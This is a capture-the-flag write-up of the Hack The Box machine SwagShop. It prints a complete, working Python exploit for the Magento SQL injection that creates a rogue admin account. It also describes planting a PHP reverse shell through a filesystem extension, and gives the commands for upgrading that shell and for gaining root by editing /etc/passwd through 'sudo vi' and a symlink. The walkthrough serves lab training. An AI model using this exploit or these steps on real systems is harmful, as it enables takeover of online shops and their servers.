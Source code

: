 # Write-up of SwagShop HTB

We will start off with nmap scan of the ip 10.10.10.140 

```
[sarthak@sarthak swagshop]$ nmap -sV 10.10.10.140 -v -Pn
Starting Nmap 7.70 ( https://nmap.org ) at 2019-05-19 11:54 IST
NSE: Loaded 43 scripts for scanning.
Initiating Parallel DNS resolution of 1 host. at 11:54
Completed Parallel DNS resolution of 1 host. at 11:54, 0.01s elapsed
Initiating Connect Scan at 11:54
Scanning 10.10.10.140 [1000 ports]
Discovered open port 22/tcp on 10.10.10.140
Discovered open port 80/tcp on 10.10.10.140
Completed Connect Scan at 11:55, 34.33s elapsed (1000 total ports)
Initiating Service scan at 11:55
Scanning 2 services on 10.10.10.140
Completed Service scan at 11:55, 6.52s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.10.140.
Initiating NSE at 11:55
Completed NSE at 11:55, 1.12s elapsed
Initiating NSE at 11:55
Completed NSE at 11:55, 0.00s elapsed
Nmap scan report for 10.10.10.140
Host is up (0.25s latency).
Not shown: 997 closed ports
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp   open     http    Apache httpd 2.4.18 ((Ubuntu))
1045/tcp filtered fpitp
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.42 seconds
```
We have port 80 opened let's see what we got there ...<br/>
![](Selection_007.png)


Here we have Magento platform running,So after googling of 15 min we found a [exploit](https://www.exploit-db.com/exploits/37977) which will create a admin account for us,So let's quickly download and run this exploit(ip address has been already changed inside the exploit)


```
[sarthak@sarthak swagshop]$ python2 exp.py 
/usr/lib/python2.7/site-packages/requests/__init__.py:91: RequestsDependencyWarning: urllib3 (1.25.2) or chardet (3.0.4) doesn't match a supported version!
  RequestsDependencyWarning)
DID NOT WORK
[sarthak@sarthak swagshop]$ 

```


hmm...it doesn't work ..after reviewing the source code of exploit program was looking for the '/admin/' path let's first find it manually...


![](Selection_009.png)


Notice the url here it's weird that it has http://10.10.10.140/index.php/customer/
So what i did here was replaced /customer/ with /admin/ and now we can see the admin panel

![](Selection_010.png)

Now we will modify the exploit and then run

FINAL EXPLOIT CODE:-
```python
import requests
import base64
import sys

target = "http://10.10.10.140/"

if not target.startswith("http"):
    target = "http://" + target

if target.endswith("/"):
    target = target[:-1]

target_url = target + "/index.php/admin/Cms_Wysiwyg/directive/index/"

q="""
SET @SALT = 'rp';
SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT ));
SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`password`,`created`,`lognum`,`reload_acl_flag`,`is_active`,`extra`,`rp_token`,`rp_token_created_at`) VALUES ('Firstname','Lastname','email@example.com','{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES (1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '{username}'),'Firstname');
"""


query = q.replace("\n", "").format(username="forme", password="forme")
pfilter = "popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);{0}".format(query)

# e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ decoded is{{block type=Adminhtml/report_search_grid output=getCsvFile}}
r = requests.post(target_url, 
                  data={"___directive": "e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ",
                        "filter": base64.b64encode(pfilter),
                        "forwarded": 1})
if r.ok:
    print "WORKED"
    print "Check {0}/admin with creds forme:forme".format(target)
else:
    print "DID NOT WORK"

```
Now let's seee

```
[sarthak@sarthak swagshop]$ python2 exp.py 
/usr/lib/python2.7/site-packages/requests/__init__.py:91: RequestsDependencyWarning: urllib3 (1.25.2) or chardet (3.0.4) doesn't match a supported version!
  RequestsDependencyWarning)
WORKED
Check http://10.10.10.140/admin with creds forme:forme
[sarthak@sarthak swagshop]$ 

```

we have creds now after logging in i looked up for exploits to get shell and found one [video](https://www.youtube.com/watch?v=pDKb_LOoDes) on youtube in which that person has uploaded shell by using the filesystem section but then i realised we don't have that section 

So after googling around, I found the [extension](https://pluginarchive.com/magento/magpleasure_filesystem) and way to upload it ...


![](Selection_012.png)

So after clicking it we got the portal to login

![](Selection_013.png)

we will use same creds from exploit *forme:forme*

![](Selection_014.png)

We will upload the filesystem extension 

![](Selection_015.png)

Now we will go back to admin panel by click on this section

![](Selection_016.png)

go to System -->File system-->IDE

![](Selection_017.png)

Open the get.php and replace with the php reverse shell which i got from [here](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)

![](Selection_018.png)

We got the shell when we opened this link [http://10.10.10.140](http://10.10.10.140)

![](Selection_019.png)

now we will first make the shell fully interactive

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
ctrl +z
stty raw -echo  
fg
export SHELL=bash
export TERM=xterm
```
Output:-
```
$ which python3                  
/usr/bin/python3
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@swagshop:/$ ^Z
[1]+  Stopped                 nc -nvlp 1234
[sarthak@sarthak swagshop]$ stty raw -echo  
[sarthak@sarthak swagshop]$ nc -nvlp 1234

www-data@swagshop:/$ export SHELL=bash
www-data@swagshop:/$ export TERM=xterm
www-data@swagshop:/$ 
```

now we will see if we have sudo permissions

```
www-data@swagshop:/$ sudo -l
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*
www-data@swagshop:/$ 

```

We can run vi with everything inside html so what we will do is we will make a symlink of passwd file and we will place a openssl hash at root section to login !!


We have created a symlink ...<br/>
```
www-data@swagshop:/$ ln -s /etc/passwd /var/www/html/
```

Now we have created a password hash for root as 'pass123'

![](Selection_021.png)

Open passwd file with vi
```
www-data@swagshop:/$ sudo /usr/bin/vi /var/www/html/passwd
```
Placed the hash 

![](Selection_022.png)

Now login as root

```
www-data@swagshop:/$ su root
Password: 
root@swagshop:/# id
uid=0(root) gid=0(root) groups=0(root)
root@swagshop:/# 
```

And we got root !!!!

<<gif>>

That's for all for today guys :grimacing:<br/>
I hope you would enjoy this writeup..!!



